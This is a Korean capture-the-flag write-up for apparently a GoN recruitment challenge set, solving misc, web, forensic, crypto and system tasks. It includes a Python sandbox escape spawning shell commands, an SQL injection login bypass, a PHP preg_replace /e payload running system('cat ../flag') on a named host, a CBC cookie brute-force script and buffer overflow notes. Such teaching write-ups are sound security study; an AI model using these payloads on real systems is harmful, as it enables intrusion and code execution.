


#Misc
# View-Source✩

	What is Source??


소스보기를 통해 Flag를 구할 수 있다.

### Flag : GoN{vi3w-s0urce:Hi!_W31c0m3}

<hr>
# QRCODE★
	What is QRCODE??


QR코드의 색상이 반전되어 있다.

색상을 반전시켜준 뒤, 읽어주면 Flag를 구할 수 있다.


### Flag : GoN{inverted\_QR\_code\_hehe^_^}

<hr>
# Unknown language★★

	What is This F**king Language??

```brain fuck
-[-------<+>]<--.[---<+>]<++.[-<+++>]<+.--[-<+++++>]<-.<+[---<++>]<+.+++[-<++++>]<.[--<+>]<.++++++[-<++>]<.+[-<+++>]<.-[-<++++++>]<.----[-<++>]<-.[---<+>]<++.+[++<--->]<-.+[-<++>]<+.+++++++++.--------------.-----.+++++++++++++.[--<+>]<--.+++[-<++>]<.-------.--[---<+>]<--.+++[++<--->]<.[-<++>]<-.-[--<+>]<.[---<++>]<-.<--[--<+++>]<.
```


Brain fuck 언어다.

http://esoteric.sange.fi/brainfuck/impl/interp/i.html 에서 코드를 실행해 볼 수 있었다.


### Flag : GoN{Wh4t\_4\_w3ird\_l4ngu4g3!}

<hr>
# Easy Coding★★★✩
	Coding is E3sy!!!
	23,456,789 이하의 소수가 아닌 수들의 합은?


1부터 23,456,789까지의 합 : 275,110,486,823,655


23,456,789 이하의 소수들의 합 : 16,716,933,354,258


따라서 275,110,486,823,655 - 16,716,933,354,258 = 258,393,553,469,397
### Flag : 258393553469397

<hr>
# Pyjail★★★★★★

	Jailbreaker of Python

	id: jail passwd: jail
	use /tmp if you need.

```python
#!/usr/bin/env python3

''' Your job is escape this program and get /bin/sh '''

           
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")

    print(open(__file__).read())
    print("========================================================================")

    print("good luck.")
    data = input('> ')

    for keyword in ['import', 'os', 'system', 'open', 'read', 'write', 'eval', 'exec']:

        if keyword in data:
            print("No hack")
            return;
    else:
        exec(data)

if __name__ == "__main__":
    main()
```


먼저 사용할 수 없는 키워드들이 많다. 

그래서 우회하여 `os.spawnlp`를 사용하기로 했다.

`StreamReaderWriter` 클래스를 이용하여 `sys`모듈을 구해오고 거기서 `os` 모듈을 통해 spawnlp를 실행시킨다.

```python
o = {x.__name__:x for x in object.__subclasses__()}['StreamReaderWriter'].__init__.__globals__['sys'].modules['o'+'s']
o.spawnlp(o.P_WAIT, 'ls', 'ls', '-alR', './')
```


./answer\_is\_in_here/this\_is\_answer\_for\_U 가 Flag파일로 예상되어 cat으로 읽어보았다.


### Flag : GoN{Jailbreaker of Python}

<hr>
#Web
# Javascript★
	Plz, be quite! Javascript.
	link
	
문제의 링크에 들어가면 다음과 같은 alert가 뜨고 창이 꺼지게 된다.


그래서 javascript를 끄고 브라우저로 접근하는 방법도 있지만 curl을 통해서 요청을 하기로 했다.


### Flag : GoN{0ff\_th3\_javascrip7}

<hr>
# Cookie★
	Yummy
	link
	
그냥 링크를 들어갔더니 답을 줬다고 한다.
문제 이름이 cookie이기 때문에 cookie값을 확인해 보았다.


### Flag : ny4m\_ny4m\_m4ijjung**

<hr>
# SQL injection★★★★
	Simple SQL injection!
	link
	
 `SQL injection`문제다.
 admin으로 로그인을 하는것이 목표이므로 앞 조건 부분에 `and 1=2`를 붙여줘서 항상 거짓으로 만든 뒤, `or id='admin'`을 통해 `id`가 `admin`인 계정으로 로그인 할 수 있게 끔 한다.
 

#### 완성된 쿼리 : SELECT id,pw FROM table_kkk WHERE id='' and pw='`' and 1=2 or id='admin'#`';


### Flag : GoN{I\_SQLI\_U}

<hr>
# PHP★★★★✩
	PHP is the best language ever.
	link
	

문제의 목표는 우리가 보낸 값의 md5값이 2017과 비교했을 때, true가 나와야 한다는 것이다.

```php
echo md5('asdf'); // 912ec803b2ce49e4a541068d495ab570
echo md5('1'); // c4ca4238a0b923820dcc509a6f75849b
echo var_dump(md5('asdf') == 912); // bool(true)
echo var_dump(md5('1') == 0); // bool(true)
```

php의 느슨한 비교 특성상 문자열과 숫자를 비교하게 되면 문자열의 맨 첫번째로 나오는 숫자와 비교 하게 된다. 

숫자로 시작하지 않는다면 0이다.

그러므로 우리가 필요한 md5값은 2017로 시작하고 그 뒤에 a,b,c,d,e,f가 나오는 값이다.

구글검색을 하다보니 해당되는 값을 발견할 수 있었다.


그래서 `!4lbumtit3l`를 인자로 넘겨주게되면 문제가 풀린다.


### Flag : GoN{PHP: Language\_for\_being\_hacked:P}

<hr>
# PHP-HARD★★★★★★
	Very Hard Challenge
	link
	hint
### Stage 1
```php
<?php
  $stage === 1 or die("nope");
   if(isset($_GET['pass']) &&
      !strcmp($_GET['pass'], $secret))
      $stage = 2;
?>
```
`strcmp`로 비교할 때, `array`가 인자로 들어가면 0이 나오는것을 이용한다.


Stage 1 Solve URL : `http://remote.goatskin.xyz:1131/index.php?pass[]=test` 

### Stage 2
```php
<?php
   $stage === 2 or die("nope");

   if(isset($_GET['pass']) &&
      !preg_match("/the/i", $_SERVER['QUERY_STRING']) &&
      $_GET['pass'] === 'the password')
      $stage = 3;
?>
```
`$_SERVER['QUERY_STRING']`은 url decode가 안되어있다.


Stage 2 Solve URL : `http://remote.goatskin.xyz:1131/index.php?pass=th%65%20password`

### Stage 3
```php
<?php
   $stage === 3 or die("nope");

   if(isset($_GET['pass']) &&
      is_numeric($_GET['pass']) &&
      strlen($_GET['pass']) < 4 &&
      $_GET['pass'] > 999)
      $stage = 4;
?>
```

4글자 미만으로 넣으면서 999보다 큰 숫자를 입력하라는 문제이다.


지수를 이용해주면 되는데 `1e3` 을 입력해 주게 되면 이것은 `1 * 10^3` 즉 `1000`을 나타내게 된다.

Stage 3 Solve URL : `http://remote.goatskin.xyz:1131/index.php?pass=1e3`

### Stage 4
```php
<?php
   $stage === 4 or die("nope");

   if(isset($_GET['pass1']) && isset($_GET['pass2']))
      echo preg_replace($_GET['pass1'], $_GET['pass2'], '-');
?>
```

다른 문제에 비해서 `preg_replace`만 있고 목표가 보이지 않는 문제입니다.

하지만 `preg_replace`를 조사해보면


`/e 변경자`를 사용해서 PHP코드를 실행 시킬 수 있다고 합니다.!

그렇다면 `preg_replace("/-/e", "system('ls')", "-");` 이렇게 보내주게 되면 `ls`명령어가 실행 되겠네요!


\<ls 명령어가 실행 된 모습>


Stage 4 Solve URL : `http://remote.goatskin.xyz:1131/index.php?pass1=/-/e&pass2=system(%27cat%20../flag%27)`

### Flag : Grand trash to be hacked...

# Forensic

# Unknown File★
	What is this?
	file

먼저 파일을 다운 받아보면 파일이름은 .doc지만 hex editor로 열어보면 원래 jpg파일이라는것을 알 수 있다.


그래서 .doc를 .jpg로 바꿔준 뒤, 열어보면 Flag가 나온다.


### Flag : GoN{don't\_trust\_file\_extension}

<hr>
# Hidden File★
	Find hidden file!
	file
	
png파일을 하나 주는데 png의 End Of Image 부분에 가면 docx에 해당하는 파일이 붙어있었다.


이 부분만 따로 빼서 docx로 저장한 뒤, 열어주게 되면 Flag가 나온다.


### Flag : GoN{png\_could\_contain\_another\_file}

<hr>
# Header★★✩
	Dig the ground! There will be answer!
	file
	
png파일을 준다.


뭔가 직감상으로 이미지 밑부분이 잘려있고, 문제 제목이 Header이기 때문에 png 파일의 height 부분에 해당하는 부분을 수정해주기로 했다.



png의 구조를 참고하여 height 부분을 수정해주게 되면 된다.

00 -> 02


그렇게 수정된 파일은 이러합니다.


### Flag : GoN{this\_is\_loooooong\_file}

<hr>
# LSB★★★★★
	Easy way to hidden data
	file
	
이미지 파일에 LSB를 이용해 데이터를 숨긴것이다.

alpha, red, green, blue 비트를 모두 조사해보니 alpha에서 발견되었다.

```python
from PIL import Image

img = Image.open('newlsb.png')
im = img.load()

bs = ''

for y in range(img.size[1]):
    for x in range(img.size[0]):
    	bs += str(im[x,y][0] % 2)

output = ''
for i in range(0, len(bs), 8):
	output += chr(int(bs[i:i+8], 2))

print output
```


### Flag : GoN{hide\_message\_in\_lsb}

<hr>
# FileSystem★★★★★★

	FileSystem Forensic
	file
	
아마 이 풀이는 출제자의 의도와 맞지 않고, 정확한 풀이가 아니라고 생각된다.

파일을 다운받으면 fs.fat이라는 파일을 하나 준다.

정상적으로 열리지 않았기에 testdisk라는 복구 툴을 사용해보기로 했다.


그러나 파일을 복구하는데에는 실패했다. 

하지만 `work.jpg`라는 파일의 존재를 알게 되었고 직접 `fs.fat`파일을 열어서 jpg파일을 복구하기로 했다.


`jpg 파일 시그니처`를 통해 해당하는 위치를 찾을 수 있었다. 그러나 파일은 정상적으로 열리지 않았다.

그런데 파일의 마지막 부분을 보면 CDEFGHI에서 잘려있다. 이 뒷부분을 fs.fat에서 찾아보면 나온다.


이 부분이 이미지의 데이터를 구성하는 부분이라 생각을 했고 열심히 드래그해서 복사를 한 뒤, 기존에 구했던 `work.jpg`에 알맞게 붙여줬다. 

CDEFGHIJST.. 순서로 이어지게, EOI(FF D9)는 덮지 않게 해결해줬다.

그렇게 jpg파일에서 flag를 구할 수 있었다. 이미지가 깨져있지만 Flag를 읽는데에는 문제가 없었다.


### Flag : GoN{D0\_U\_KN0W\_FAT32???}

<hr>
#Crypto
# Hash & Encoding★
	What is Hash & Encoding?
	crack('0ec37ec6de83fe1e3939766876eac5afb9b01ddf') + 
	crack('f33ba15effa5c10e873bf3842afb46a6') * dec('MTIzMTQxMg==') = ?
	
Hash와 Encoding에 관한 문제다. 앞 crack 2개는 Hash로 보이며, 뒤는 ==로 보아 `base64` 인코딩으로 예상할 수 있다.

먼저 Hash를 복호화 한다는건 불가능하므로 이미 알려진 Hash값일 가능성이 크다. 그래서 구글에 검색해보니 두 값 모두 나왔다.

sha(1817) = 0ec37ec6de83fe1e3939766876eac5afb9b01ddf
md5(1012) = f33ba15effa5c10e873bf3842afb46a6
base64(1231412) = MTIzMTQxMg==

따라서 1817 + 1012 * 1231412 = 1246190761

### Flag : 1246190761

<hr>
# Ancient Tale★
	This is secret tale of ancient rome.
	BjI{z4nt_4iy_api_xdkc3m}

분명 GoN{으로 시작해야 할텐데 각자 다른것으로 쓰인것으로 보니 caesar 암호화로 예상된다.

실제로 각각 문자들을 5만큼 이동시켜주게 되면 Flag값이 나오게 된다.

### Flag : GoN{e4sy\_4nd\_fun\_ciph3r}

<hr>
# RSA★★★
	Really Secure Algorithm!
	n = 16547070520914666367481944159053275529434584410142411
	e = 65537
	c = 13179845332334938411787150462748287916268892414709429
	답은 plain message의 hex representation을 ascii로 인코딩 한 값.

n, e, c값을 주었다. 일단, n을 통해서 p와 q값을 구해보면 173, 95647806479275528135733781266203904794419563064407가 나오게 된다. 그렇게 p와 q를 이용하면 d값이 10183580522135815425951707624793108040776999367017921가 나오므로 c ^ d % n 을 하게되면 평문을 구할 수 있다.

```python
n = 16547070520914666367481944159053275529434584410142411
c = 13179845332334938411787150462748287916268892414709429
d = 0x1b37e377e766547d6f62cb180328d6d345db261705c1

def modpow(x, y, z):
    number = 1
    while y:
        if y & 1:
            number = number * x % z
        y >>= 1
        x = x * x % z
    return number

plain = modpow(c, d, n)

print hex(plain)[2:-1].decode('hex')
```

### Flag : GoN{easy_factoring}

<hr>
# ECB★★★★✩
	Att3ck the ECB mode
	link
ECB 모드를 공격하라는 문제이다.

먼저 사이트에 들어가면 원하는 id를 입력할 수 있다.


`guest`를 입력하니 앞에 `id=`과 `&admin=0`이 붙었고 권한이 guest라고 뜬다. 아무래도 `&admin=1`로 바꾸어줘야 할것같다고 생각했다.


ecb는 8byte씩 나눠서 암호화가 이루어지기 때문에 도중에 8byte 블럭이 통째로 빠져도 복호화 되는데 문제가 생기지 않는다.

그래서 이번에는 id를 `guest&admin=1`로 입력해보았다.


이때의 Cookie값은 `8332eee9252f7127c5d9593b8323d41aa3637c9bb15ad0c648eec299d253f443`였는데
8bytes씩 나눠보면
id=guest : 8332eee9252f7127
&admin=1 : c5d9593b8323d41a
&admin=0 : a3637c9bb15ad0c6
Padding  : 48eec299d253f443

평문의 길이가 24글자이기 때문에 패딩이 \x08로 8byte가 생긴다.

그렇다면 `&admin=0`에 해당하는 `a3637c9bb15ad0c6`만 제외해주면 된다.
수정된 Cookie값 : `8332eee9252f7127c5d9593b8323d41a48eec299d253f443`


### Flag : GoN{slump\_is\_just\_feeling}

<hr>
# CBC★★★★★★
	Att3ck the CBC Mode
	link

초반에 id를 입력하는것은 똑같지만 ecb처럼 id로 `guest&admin=`을 입력하게 되면 `You cannot use & in id`라고 뜨게 된다.

그래서 `&admin=1&id=1`로 id를 정했다. id를 한글자로 한 이유는 로그인하게 되면 평문이`id=&admin=1&id=1&admin=0`로 이루어지므로 딱 24글자가 되기 때문이었다.

이제 로그인을 해보게 되면 다음과 같은 Cookie가 주어진다.
평문 : `id=&admin=1&id=1&admin=0`
`2e80450c80cab06c2d2642c4e548fb25408c5a0d6f808d8a6e47dca737e996f7`

잠시 나누어 보면
id=&admi : 2e80450c80cab06c
n=1&id=1 : 2d2642c4e548fb25
&admin=0 : 408c5a0d6f808d`8a`
Padding  : 6e47dca737e996f7

로 이루어 지게 된다. 

이 문제를 풀면서의 아이디어는 `bit flipping`으로 뒤의 `Padding`값을 만족 시켜주지만 `bit flipping`으로 인한 복호화 값이 깨지는것을 이용하기로 했다.

`&admin=0`의 맨뒤의 `8a`부분을 조작시켜주기로 했다. 이 부분을 조작함으로써 Padding의 맨 뒷비트가`\x01`로 복호화 된다면 `Padding`은 `True`가 될것이고 `&admin=0`의 블럭은 암호화된값이 조작되었으므로 정상적인 값이 복호화 되지 않을것이다.

그렇게 해당하는 부분을 Brute Force 해주기로 했다.

```python
import requests

for i in range(0x00, 256):
	cookies = {'auth': '2e80450c80cab06c2d2642c4e548fb25408c5a0d6f808d%02x6e47dca737e996f7' % (i)}
	r = requests.request('GET', 'http://ubuntu32.kaist.ac.kr/recruit2017/cbc.php', cookies=cookies)

	print cookies, r.text
	data = r.text
	if 'error' not in r.text:
		exit()
```
`Cookie : 2e80450c80cab06c2d2642c4e548fb25408c5a0d6f808d836e47dca737e996f7`


### Flag : GoN{Fl1p\_th3\_bit!}

<hr>
# System

# Learn Linux★★
	Let's learn linux!
	link
	id: learn passwd: learn
	use /tmp if you need.

기초적인 명령어를 테스트 하는 문제


### Flag : GoN{Basic\_Linux\_command:P}

<hr>
# Command Injection★★★★✩
	Inject command!
	link
	id: inject passwd: inject
	use /tmp if you need.

커멘드 인젝션 문제


### Flag : GoN{Do\_Not\_USE\_system(input)} 

<hr>
# Assembly★★★★
	Simple X86 Assembly
	hint
	
	(gdb) disas main
	Dump of assembler code for function main:
	    0x0804848f <+0>: push %ebp
	    0x08048490 <+1>: mov %esp,%ebp
	    0x08048492 <+3>: and $0xfffffff0,%esp
	    0x08048495 <+6>: sub $0x20,%esp
	    0x08048498 <+9>: movl $0x0,0x18(%esp)
	    0x080484a0 <+17>: jmp 0x80484e6 
	    0x080484a2 <+19>: movl $0x0,0x1c(%esp)
	    0x080484aa <+27>: jmp 0x80484da 
	    0x080484ac <+29>: mov 0x1c(%esp),%eax
	    0x080484b0 <+33>: mov 0x804a020(,%eax,4),%edx
	    0x080484b7 <+40>: mov 0x1c(%esp),%eax
	    0x080484bb <+44>: add $0x1,%eax
	    0x080484be <+47>: mov 0x804a020(,%eax,4),%eax
	    0x080484c5 <+54>: cmp %eax,%edx
	    0x080484c7 <+56>: jle 0x80484d5 
	    0x080484c9 <+58>: mov 0x1c(%esp),%eax
	    0x080484cd <+62>: mov %eax,(%esp)
	    0x080484d0 <+65>: call 0x804841d 
	    0x080484d5 <+70>: addl $0x1,0x1c(%esp)
	    0x080484da <+75>: cmpl $0x4,0x1c(%esp)
	    0x080484df <+80>: jle 0x80484ac 
	    0x080484e1 <+82>: addl $0x1,0x18(%esp)
	    0x080484e6 <+87>: cmpl $0x5,0x18(%esp)
	    0x080484eb <+92>: jle 0x80484a2 
	    0x080484ed <+94>: movl $0x804a03c,(%esp)
	    0x080484f4 <+101>: call 0x80482f0 
	    0x080484f9 <+106>: leave
	    0x080484fa <+107>: ret
	End of assembler dump.
	(gdb) disas swap
	Dump of assembler code for function swap:
	    0x0804841d <+0>: push %ebp
	    0x0804841e <+1>: mov %esp,%ebp
	    0x08048420 <+3>: sub $0x10,%esp
	    0x08048423 <+6>: mov 0x8(%ebp),%eax
	    0x08048426 <+9>: mov 0x804a020(,%eax,4),%eax
	    0x0804842d <+16>: mov %eax,-0x4(%ebp)
	    0x08048430 <+19>: mov 0x8(%ebp),%eax
	    0x08048433 <+22>: add $0x1,%eax
	    0x08048436 <+25>: mov 0x804a020(,%eax,4),%edx
	    0x0804843d <+32>: mov 0x8(%ebp),%eax
	    0x08048440 <+35>: mov %edx,0x804a020(,%eax,4)
	    0x08048447 <+42>: mov 0x8(%ebp),%eax
	    0x0804844a <+45>: lea 0x1(%eax),%edx
	    0x0804844d <+48>: mov -0x4(%ebp),%eax
	    0x08048450 <+51>: mov %eax,0x804a020(,%edx,4)
	    0x08048457 <+58>: mov 0x8(%ebp),%eax
	    0x0804845a <+61>: add $0x804a03c,%eax
	    0x0804845f <+66>: movzbl (%eax),%eax
	    0x08048462 <+69>: mov %al,-0x5(%ebp)
	    0x08048465 <+72>: mov 0x8(%ebp),%eax
	    0x08048468 <+75>: add $0x1,%eax
	    0x0804846b <+78>: movzbl 0x804a03c(%eax),%eax
	    0x08048472 <+85>: mov 0x8(%ebp),%edx
	    0x08048475 <+88>: add $0x804a03c,%edx
	    0x0804847b <+94>: mov %al,(%edx)
	    0x0804847d <+96>: mov 0x8(%ebp),%eax
	    0x08048480 <+99>: lea 0x1(%eax),%edx
	    0x08048483 <+102>: movzbl -0x5(%ebp),%eax
	    0x08048487 <+106>: mov %al,0x804a03c(%edx)
	    0x0804848d <+112>: leave
	    0x0804848e <+113>: ret
	End of assembler dump.
	(gdb) x/7xw 0x804a020
	0x804a020: 0x01709e79 0x008cccc9 0x0035c7e2 0x005704e7
	0x804a030: 0x00213d05 0x00e3d1b0 0x00000000
	(gdb) x/7xb 0x804a03c
	0x804a03c: 0x45 0x38 0x55 0x42 0x38 0x4c 0x00
	(gdb) q

지금까지 핸드레이를 한번도 해본적이 없었기 때문에 조금 막막했지만 차근차근 해보니 별 갯수에 맞게 그렇게 어려운 문제는 아니였다.

일단 AT&T 문법보다는 Intel문법이 익숙했기 때문에 Intel문법으로 바꾸고 한줄 한줄 해석하며 C코드로 바꿔 나갔다.

```asm
int arr: 0x01709e79 0x008cccc9 0x0035c7e2 0x005704e7
0x804a030: 0x00213d05 0x00e3d1b0 0x00000000

char arr2: 0x45 0x38 0x55 0x42 0x38 0x4c 0x00

v1 == [esp + 0x18]
v2 == [esp + 0x1c]
(main function)  
0x0804848f <+0>:   push   ebp
0x08048490 <+1>:   mov    ebp, esp
0x08048492 <+3>:   and    esp, -0x10
0x08048495 <+6>:   sub    esp, 0x20
0x08048498 <+9>:   mov    dword ptr [esp + 0x18], 0x0 # v1 = 0
 ┌0x080484a0 <+17>:  jmp    0x080484e6 
┌├>0x080484a2 <+19>:  mov    dword ptr [esp + 0x1c], 0x0 # v2 = 0
││ ┌0x080484aa <+27>:  jmp    0x080484da 
││┌├>0x080484ac <+29>:  mov    eax, dword ptr [esp + 0x1c] # eax = v2
││││0x080484b0 <+33>:  mov    edx, dword ptr [4*eax + arr] # edx = arr[eax];
││││0x080484b7 <+40>:  mov    eax, dword ptr [esp + 0x1c] # eax = v2;
││││0x080484bb <+44>:  add    eax, 0x1 # eax += 1;
││││0x080484be <+47>:  mov    eax, dword ptr [4*eax + arr] # eax = arr[eax];
││││0x080484c5 <+54>:  cmp    edx, eax
││││┌0x080484c7 <+56>:  jle    0x080484d5 # if edx <= eax jmp to 0x080484d5
│││││0x080484c9 <+58>:  mov    eax, dword ptr [esp + 0x1c] # eax = v2;
│││││0x080484cd <+62>:  mov    dword ptr [esp], eax # *esp = eax;
│││││0x080484d0 <+65>:  call   0x0804841d # swap
││││└>0x080484d5 <+70>:  add    dword ptr [esp + 0x1c], 0x1
│││└>0x080484da <+75>:  cmp    dword ptr [esp + 0x1c], 0x4 
││└0x080484df <+80>:  jle    0x080484ac # if v2 <= 4 jmp to 0x080484a2
││0x080484e1 <+82>:  add    dword ptr [esp + 0x18], 0x1 # v1 += 1
│└>0x080484e6 <+87>:  cmp    dword ptr [esp + 0x18], 0x5 # 
└0x080484eb <+92>:  jle    0x080484a2  # if v1 <= 5 jmp to 0x080484a2
0x080484ed <+94>:  mov    dword ptr [esp], 0x0804a03c
0x080484f4 <+101>: call   0x080482f0  # ???
0x080484f9 <+106>: leave  
0x080484fa <+107>: ret

v1 = 0;
while (v1 <= 5) {
	v2 = 0;
	while (v2 <= 4) {
		eax = v2;
		edx = arr[eax];
		eax = v2;
		eax += 1;
		eax = arr[eax];
		if (!(edx <= eax)) {
			eax = v2;
			swap(eax);
		}
		v2 += 1;
	}
	v1 += 1;
}

f1 == [ebp + 0x8] : 인자값
v2 == [ebp - 0x4] : tmp
c3 == [ebp - 0x5] : tmp2s
(swap function)
push   ebp
mov    ebp, esp
sub    esp, 0x10
mov    eax, dword ptr [ebp + 0x8] 
mov    eax, dword ptr [4*eax + arr]
mov    dword ptr [ebp - 0x4], eax
mov    eax, dword ptr [ebp + 0x8]
add    eax, 0x1
mov    edx, dword ptr [4*eax + arr]
mov    eax, dword ptr [ebp + 0x8]
mov    dword ptr [4*eax + arr], edx
mov    eax, dword ptr [ebp + 0x8]
lea    edx, [eax + 0x1]
mov    eax, dword ptr [ebp - 0x4]
mov    dword ptr [4*edx + arr], eax
mov    eax, dword ptr [ebp + 0x8]
add    eax, arr2
movzx  eax, byte ptr [eax]
mov    byte ptr [ebp - 0x5], al
mov    eax, dword ptr [ebp + 0x8]
add    eax, 0x1
movzx  eax, byte ptr [eax + arr2]
mov    edx, dword ptr [ebp + 0x8]
add    edx, arr2
mov    byte ptr [edx], al
mov    eax, dword ptr [ebp + 0x8]
lea    edx, [eax + 0x1]
movzx  eax, byte ptr [ebp - 0x5]
mov    byte ptr [edx + arr2], al
leave  
ret

int eax = f1;
eax = arr[eax];
int v2 = eax; // v2 = arr[f1]
eax = f1;
eax += 1;
int edx = arr[eax];
eax = f1;
arr[eax] = edx; // arr[f1] = arr[f1+1]
eax = f1;
edx = eax+1;
eax = v2;
arr[edx] = eax; // arr[f1+1] = v2
eax = f1;
eax += arr2; <- eax = &arr2[eax]
eax = (char)eax;
char c3 = eax; // c3 = arr2[f1]
eax = f1;
eax += 1;
eax = arr2[eax];
edx = f1;
edx += arr2; <- edx = &arr2[edx]
*edx = eax; // arr2[f1] = arr2[f1+1]
eax = f1;
edx = eax+1;
eax = c3;
arr2[edx] = eax; // arr2[f1+1] = c3;
```

어셈을 기반으로 구한 알고리즘을 똑같이 구현해서 돌려주면 답이 나오게 된다.

```python
import struct

arr  = [0x01709e79, 0x008cccc9, 0x0035c7e2, 0x005704e7, 0x00213d05, 0x00e3d1b0, 0x00000000]
arr2 = [0x45, 0x38, 0x55, 0x42, 0x38, 0x4c, 0x00]

for i in range(0, 6):
	for j in range(0, 5):
		if arr[j] > arr[j+1]:
			arr[j], arr[j+1] = arr[j+1], arr[j]
			arr2[j], arr2[j+1] = arr2[j+1], arr2[j]

print ''.join(map(chr, arr2)) #8UB8LE
```

### Flag : 8UB8LE

<hr>
# Buffer Overflow - Easy★★★★★✩

	Basic of System Hacking
	link
	id: bof passwd: bof
	use /tmp if you need.

```c	
#include <stdio.h>
#include <stdlib.h>

char answer[0x100];
int main()
{
        int change_this = 0x12345678;
        char buf[0x100];
        printf("before change: %08x\n", change_this);
        read(0, buf, 0x200);
        if(change_this == 0x41424344)
        {
                FILE *fp = fopen("/home/bof-easy/answer","r");
                fread(answer, 1, 100, fp);
                puts("Great! here is answer");
                puts(answer);
        }
        printf("after change: %08x\n", change_this);
        exit(0);
}
```

Buffer overflow문제이다. `buf`는 0x100만큼 이지만 `read`로 0x200까지 받으므로 buf를 넘어서서 `change_this`의 영역까지 건드릴 수 있다.

260글자 아무거나 입력해주고 `change_this`의 영역에 들어갈 값을 입력하면 된다.


### Flag : GoN{n0w\_U\_kn0w\_st3ck}

<hr>
# Buffer Overflow★★★★★★

```c
#include <stdio.h>                                                                                                             
#include <stdlib.h>                                                                                                            
                                                                                                                               
char answer[0x100];                                                                                                            
int solve()                                                                                                                    
{                                                                                                                              
        FILE *fp = fopen("/home/bof/answer", "r");                                                                             
        fread(answer, 1, 100, fp);                                                                                             
        puts("Great! here is answer");                                                                                         
        puts(answer);                                                                                                          
        exit(0);                                                                                                               
}                                                                                                                              
                                                                                                                               
                                                                                                                               
void *get_retaddr()                                                                                                            
{                                                                                                                              
    __asm__ __volatile__ ( "movl 0x10c(%%esp), %%eax":::"eax");                                                                
}                                                                                                                              
                                                                                                                               
int main()                                                                                                                     
{                                                                                                                              
       printf("current return address: %p\n", get_retaddr());                                                                  
       printf("your job is call %p\n", solve);                                                                                 
       char buf[0x100];                                                                                                        
       read(0, buf, 0x200);                                                                                                    
       printf("changed return address: %p\n", get_retaddr());                                                                  
}                                                                  
```

이번에는 `return address`를 덮는것인데 `[buf 0x100] [SFP 0x4] [RET 0x4]` 이므로 Bof-easy 문제와 똑같이 260자를 입력해주고 주어지는 `return address`를 적어주면 된다.

`ASLR`이 걸려있지 않으므로 `return address`는 항상 동일하다.


### Flag : GoN{The\_B3sic\_0f\_Syst3m\_h3cking}